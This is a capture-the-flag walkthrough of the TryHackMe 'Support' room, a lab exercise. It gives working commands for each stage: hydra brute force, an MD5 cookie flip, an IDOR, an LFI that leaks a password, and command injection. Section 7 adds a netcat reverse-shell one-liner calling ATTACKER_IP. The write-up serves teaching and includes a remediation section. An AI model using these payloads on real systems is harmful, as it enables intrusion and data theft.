










# THM — Support | Full Walkthrough

> [!TIP]
> **Scope note:** The target IP changes every time the machine is deployed. Every command below uses `$IP`, set once at the start of the engagement. All outputs shown were captured against `10.10.10.55`.

---

## Directory

| # | Section | What happens there |
|---|---|---|
| 1 | [Machine Overview & Metadata](#1-machine-overview-metadata) | Target card, attack chain diagram |
| 2 | [Reconnaissance & Enumeration](#2-reconnaissance-enumeration) | Nmap, content discovery, a free username on the login page |
| 3 | [Initial Access — Brute-Forcing the Helpdesk Account](#3-initial-access-brute-forcing-the-helpdesk-account) | `hydra` against the login form |
| 4 | [Broken Access Control — Cookie Tampering](#4-broken-access-control-cookie-tampering) | `isITUser` MD5 cookie flip |
| 5 | [IDOR — Enumerating the Internal User API](#5-idor-enumerating-the-internal-user-api) | `/user/1` leaks the admin identity |
| 6 | [LFI — Leaking the Master Password](#6-lfi-leaking-the-master-password) | `skin=../config`, source disclosure, admin login |
| 7 | [Command Injection — RCE](#7-command-injection-rce) | The `sys` parameter, reading `user.txt` |
| 8 | [Remediation & Hardening](#8-remediation-hardening) | How each flaw should have been prevented |
| 9 | [Lessons Learned (Attack Summary)](#9-lessons-learned-attack-summary) | Takeaways and technique recap |

---

## 1. Machine Overview & Metadata

| Field | Value |
|---|---|
| **Machine** | Support |
| **Platform** | TryHackMe (premium room — [tryhackme.com/room/support](https://tryhackme.com/room/support)) |
| **OS** | Linux (Ubuntu; web app runs as `www-data`) |
| **Difficulty** | Medium |
| **Points** | — (THM ranks are completion-based; two flags to capture) |
| **Attack Vector** | Web — a five-vulnerability chain |
| **Key Vulnerabilities** | Weak credentials (`snoopy`) • Client-side authorization via an unsigned MD5 cookie (`isITUser`) • IDOR in the internal `/user/{id}` API • Constrained LFI in the `skin` parameter → source disclosure • Command injection in the `sys` parameter (input must start with `date`) |
| **Flags** | 2 — one on the admin dashboard, one in `/home/ubuntu/user.txt` |
| **Author of notes** | CPTS Field Manual |

**Overview.** Support is a deliberately vulnerable "Support Operations Platform" — the kind of internal helpdesk tool every company runs. It is a pure **web-chaining room**: no single bug wins on its own, but five small flaws each hand you the key to the next. A brute-forced password gets you in the door, an MD5'd cookie pretends to be authorization, an API forgets to check object ownership, a theme selector includes local files, and a clock widget runs shell commands. The room is the capstone exercise for classic web application vulnerabilities: brute force, broken access control, IDOR, LFI, and command injection.

### 1.1 Attack Chain at a Glance

```
Nmap (22/ssh, 80/http)
   └─> content discovery → api.php, config.php, skins/, dashboard.php, info.php
         └─> login page leaks help@support.thm → hydra + rockyou → password: snoopy
               └─> dashboard sets cookie isITUser = md5("false")
                     └─> flip to md5("true") → hidden IT Admin Panel + API
                           └─> IDOR: GET /user/1 → admin email specialadmin@support.thm
                                 └─> LFI: dashboard.php?skin=../config (view-source) → master password
                                       └─> admin login (server strips "@": support110) → flag 1
                                             └─> footer time widget: sys=date;<cmd> → RCE → flag 2
```

---

## 2. Reconnaissance & Enumeration

### 2.1 Port Scan

```bash
export IP="10.10.10.55"
sudo nmap -sVC -A -Pn -T3 $IP
```

**Why each switch:**

| Switch | Purpose |
|---|---|
| `-sV` | Version-probe open ports — fingerprinting the web server early narrows the stack. |
| `-sC` | Default NSE scripts (`http-title`, banner grabs, `ssh-hostkey`). |
| `-A` | Aggressive bundle: OS detection + version + scripts + traceroute. |
| `-Pn` | Assume the host is up — VPN/cloud targets routinely drop discovery probes. |
| `-T3` | Default timing — reliable for a single lab target. |


*Nmap scan of Support — SSH on 22 and HTTP on 80*

**Results:**

| Port | State | Service | Version |
|---|---|---|---|
| 22/tcp | open | ssh | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | open | http | Apache/2.4.41 ((Ubuntu)) |

Only SSH and a web server. SSH needs credentials we don't have, so port 80 is the entire engagement.

### 2.2 Content Discovery

Before touching the login form, map the application:

```bash
gobuster dir -u http://$IP \
    -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
    -x php,txt,bak,js,json
```

| Flag | Why |
|---|---|
| `-x php,txt,bak,js,json` | The stack is clearly PHP (the room gives `.php` pages); extensions catch files a plain directory wordlist would miss. |
| `directory-list-2.3-medium.txt` | Medium list is a good balance for a lab target — enough coverage without waking rate limiters. |


*Gobuster findings — api.php, config.php, dashboard.php, info.php, footer.php, includes/, skins/*

**Findings worth noting:**

| Path | Significance |
|---|---|
| `api.php`, `dashboard.php` | Both **302 → index.php** — authenticated areas (auth gates to test later). |
| `config.php` | PHP executes server-side, so it returns nothing *now* — but it just became a known target. |
| `info.php` | A live **phpinfo()** page — confirms the exact PHP version and settings. |
| `skins/` | **Directory listing enabled**, containing `red.php`, `blue.php`, … — remember this for the LFI stage. |
| `includes/`, `footer.php`, `logout.php` | App structure; footer.php matters again once we are admin. |

> [!NOTE]
> Content discovery paid for itself twice: the `skins/` listing exposes exactly which files the theme parameter can include, and `config.php` is now a known file to hunt for later. Enumeration is never wasted.

### 2.3 The Login Page — A Free Username

`http://$IP` serves an "Employee Authentication" login (email + password). There is no registration, and the login does **not** leak account validity (identical error for any wrong user — worth testing before brute-forcing blind). But the page hands out a valid identity anyway — the support contact line at the bottom:


*Support Operations Platform login — "Contact IT Operations @ help@support.thm"*

That is a username we now know exists: **`help@support.thm`**. We just need its password.

---

## 3. Initial Access — Brute-Forcing the Helpdesk Account

The login is a plain HTTP POST (`email` + `password`) with no CSRF token, no rate limiting, and no lockout — three reasons a dictionary attack is the right next move:

```bash
hydra -l 'help@support.thm' -P /usr/share/wordlists/rockyou.txt $IP http-post-form \
    '/:email=^USER^&password=^PASS^:Invalid credentials'
```

**Parameter-by-parameter:**

| Token | Meaning |
|---|---|
| `-l 'help@support.thm'` | Fixed username — we already have one valid identity; attacking one account with many passwords is quieter and more reliable than many accounts with one password. |
| `-P rockyou.txt` | The standard 14M-entry password wordlist. |
| `http-post-form '/:email=^USER^&password=^PASS^:Invalid credentials'` | Form brute-force module: path `/`, the POST body with `^USER^`/`^PASS^` placeholders, and the **failure string** — Hydra counts a try as failed only when the response contains it. |
| (equivalent ffuf) | `ffuf -w rockyou.txt -X POST -d "email=help@support.thm&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://$IP -fs 2678` — same attack, filtering on response *size* instead. |


*Hydra cracking help@support.thm — password: snoopy*

```
[80][http-post-form] host: 10.10.10.55   login: help@support.thm
                                                     password: snoopy
1 of 1 target successfully completed, 1 valid password found
```

Log in as **`help@support.thm` : `snoopy`** and the dashboard loads:


*Helpdesk dashboard — logout button and a theme selector, nothing else*

A helpdesk user gets almost nothing: a logout button and a **theme selector**. Two things to keep in the back pocket: that theme selector reeks of file inclusion (`skins/` from recon), and authentication *always* leaves state worth inspecting.

---

## 4. Broken Access Control — Cookie Tampering

Inspect what login actually set — DevTools → **Storage → Cookies**:


*DevTools storage view — isITUser=68934a3e9455fa72420237eb05902327*

```
isITUser = 68934a3e9455fa72420237eb05902327
```

A 32-hex-character cookie — the shape of an **MD5 hash**. Cracking it (CrackStation, `hashcat`, or `md5("false")`) resolves instantly:

```bash
echo -n "false" | md5sum
# 68934a3e9455fa72420237eb05902327
```

So the application stores the user's privilege level as `md5(<boolean>)` in a **client-side, unsigned cookie**, and trusts it on the next request. Flipping the boolean is trivial:

```bash
echo -n "true" | md5sum
# b326b5062b2f0e69046810717534cb09
```

Replace the cookie value with `b326b5062b2f0e69046810717534cb09`, refresh the dashboard, and a previously hidden **IT Admin Panel** appears with a **View API** button:

> [!IMPORTANT]
> This is broken access control in its purest form: the authorization decision lives on the client and is protected by nothing but a hash — and a hash is not a signature. MD5 only proves *who generated the string "true"* (anyone), not that the server authorized it. Server-side decisions must never be reconstructed from client-controlled state.

---

## 5. IDOR — Enumerating the Internal User API

The View API button leads to the internal endpoint's documentation: as a helpdesk user you may query your own profile — `GET /user/3`.

Numeric, sequential, object-level identifiers are the classic signature of an **IDOR** (Insecure Direct Object Reference — THM also calls it BOLA, Broken Object Level Authorization). If the API checks *that you are logged in* but not *that the object is yours*, every ID is fair game. User `1` is usually the first account ever created — i.e. the administrator:


*GET /user/1 returns the administrator's profile — specialadmin@support.thm*

```bash
curl -s "http://$IP/api.php/user/1" \
     -b "PHPSESSID=<yours>; isITUser=b326b5062b2f0e69046810717534cb09"
```

```json
{"id": 1, "name": "Admin", "role": "administrator",
 "email": "specialadmin@support.thm"}
```

**Result:** the administrator's email — **`specialadmin@support.thm`**. The API is read-only (every method returns the same object, so no mass-assignment here), but pure disclosure was enough: we now have the *identity* half of an admin login and only need the password.

---

## 6. LFI — Leaking the Master Password

### 6.1 The Theme Selector is a File Inclusion

Clicking the theme selector rewrites the URL to `dashboard.php?skin=red`. From recon we know `skins/red.php` exists, and the application visibly appends `.php` to whatever we pass — the backend is effectively:

```php
include("skins/" . $_GET['skin'] . ".php");
```

That is a **constrained LFI**: the `skins/` prefix and the `.php` suffix are hard-coded. They kill the fun wrappers (`php://filter` would become `skins/php://...`) and block raw file reads (`../../etc/passwd` would arrive as `passwd.php`). But traversal **out of `skins/` and into any existing `.php` file still works** — and recon gave us the perfect target: `config.php`.

```text
http://$IP/dashboard.php?skin=../config
```

### 6.2 The view-source Trick

The page renders blank — `config.php` is *executed*, and its `<?php ... ?>` block produces no output. PHP code that runs leaves no trace in the response body… unless you read the **raw source** with the browser's `view-source:` prefix, which catches the file's text before the client would parse it:

```text
view-source:http://$IP/dashboard.php?skin=../config
```


*view-source on skin=../config — the config.php source with the master password*

```php
<?php
// config.php
$master_password = "support@110";
?>
```

**The master password: `support@110`.**

### 6.3 Admin Login (and the Quirk)

Logging in as `specialadmin@support.thm` with `support@110` **fails**. Testing the variation space: the application strips the `@` special character from passwords *before* comparing — the working credential is **`specialadmin@support.thm` : `support110`**.

> [!TIP]
> When a leaked password "doesn't work", don't discard it — mutate it. Strip special characters, try case variants, try substrings. Here the app's own input-sanitization (removing `@`) was only observable by trying the mutation.

Admin access succeeds, and the **first flag is sitting on the admin dashboard**:


*IT Admin dashboard as specialadmin — first flag displayed*

??? success "Flag 1 — click to reveal"

    ```
    THM{PASTE-FLAG-1-HERE}
    ```

**Halfway there.** The second task demands the contents of `/home/ubuntu/user.txt` — and no page in the app reads server files.

---

## 7. Command Injection — RCE

### 7.1 Finding the Sink

The admin dashboard grew a footer widget that displays the **date or time**. In Burp, selecting an option fires a background POST:

```http
POST /dashboard.php HTTP/1.1
Cookie: PHPSESSID=<yours>; isITUser=b326b5062b2f0e69046810717534cb09
Content-Type: application/x-www-form-urlencoded

sys=date+%2B%22%25H%3A%25M%3A%25S%22
```

URL-decoded: `sys=date +"%H:%M:%S"`. The parameter **is a shell command** — the backend executes it and returns the output. That is a textbook command-injection sink. Reading `footer.php` through the LFI (`skin=../footer`) confirms the rule: the value must simply **start with `date`**.

### 7.2 Exploitation

Terminate the `date` command and append our own:

```bash
curl -s 'http://$IP/dashboard.php' -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -b 'PHPSESSID=<yours>; isITUser=b326b5062b2f0e69046810717534cb09' \
     --data-raw 'sys=date;cat /home/ubuntu/user.txt'
```

| Piece | Why |
|---|---|
| `sys=date` | Satisfies the "must start with date" condition. |
| `;` | Command separator — runs whatever follows after `date` completes. |
| `cat /home/ubuntu/user.txt` | The target read. Any command works here (`;ls -al`, `;id`, …). |


*POST sys=date;cat /home/ubuntu/user.txt — the second flag in the response*

```
14:37:22
THM{PASTE-FLAG-2-HERE}
```

**Arbitrary command execution as `www-data`** — confirmed, with the second flag in hand.

??? success "Flag 2 — click to reveal"

    ```
    THM{PASTE-FLAG-2-HERE}
    ```

> [!NOTE]
> No reverse shell is needed to finish, but the same sink escalates to a full shell — e.g. `sys=date$(busybox nc ATTACKER_IP 4444 -e bash)` against a `nc -lvnp 4444` listener lands a callback as `www-data`. Reverse shells from a web sink need stable inbound routing; the one-liner `;cat` reads are often all a black-box assessment requires.

**Room complete.** Five flaws, each unlocking the next: brute force → cookie flip → IDOR → LFI → command injection.

---

## 8. Remediation & Hardening

Map each fix to the exact weakness that made it exploitable:

### 8.1 Weak Credentials & Missing Rate Limiting

- `snoopy` — a cartoon dog — was in every password wordlist ever compiled. Enforce **length and breach-corpus checks** (NIST SP 800-63B guidance) instead of complexity theater.
- **Rate-limit and lock out** repeated failures per account *and* per source IP; add CAPTCHA or step-up authentication on the login form. Hydra only works against endpoints that answer politely, forever.

### 8.2 Client-Side Authorization (`isITUser`)

- **Privilege is server state.** Store roles in the server-side session, never in client-controlled cookies — and never ship an MD5 of the decision as if hashing were signing. If a client-side token is unavoidable, it must be **authenticated** (HMAC) and **validated server-side** on every privileged request.
- Audit every privileged branch for "what input can the client control here?" — the IT Admin Panel rendered purely from the cookie's value.

### 8.3 IDOR in the User API

- **Authorize on the object, not the session.** `/user/{id}` must verify the requester may read *that id* (owner or explicit role check) — returning your own profile by convention is not a control.
- Avoid sequential, guessable identifiers where feasible (UUIDs reduce enumeration noise but are **not** a substitute for the authorization check).

### 8.4 Local File Inclusion (`skin`)

- **Never build paths from user input.** Map `skin=red` to a server-side allow-list: `$allowed = ['red' => 'skins/red.php']` and look up — don't concatenate.
- Defense in depth: `open_basedir` for the web root, `allow_url_include=Off`, and web-root layouts that keep sensitive files (`config.php`) outside includable user paths.

### 8.5 Command Injection (`sys`)

- **Never pass user input to a shell.** The widget needed "date or time" — that is two fixed options, so call `date()` in PHP or allow-list exactly `date`, `date +"%H:%M:%S"`. If shell escaping is unavoidable, `escapeshellarg()` per argument, and reject metacharacters.
- Run the web application as a **dedicated low-privilege user** (it already ran as `www-data` — the flag was still readable, so file permissions on `/home/ubuntu` deserve a look too) and egress-filter from server VLANs so injected shells cannot call home.

---

## 9. Lessons Learned (Attack Summary)

| # | Stage | Technique | Weakness |
|---|---|---|---|
| 1 | Recon | `gobuster` + page reading | Contact email leaks a valid username; `skins/` listing previews include targets |
| 2 | Initial access | `hydra` POST brute force | No rate limiting; dictionary password |
| 3 | Privilege escalation | `isITUser` = `md5("false")` → `md5("true")` | Client-side, unsigned authorization |
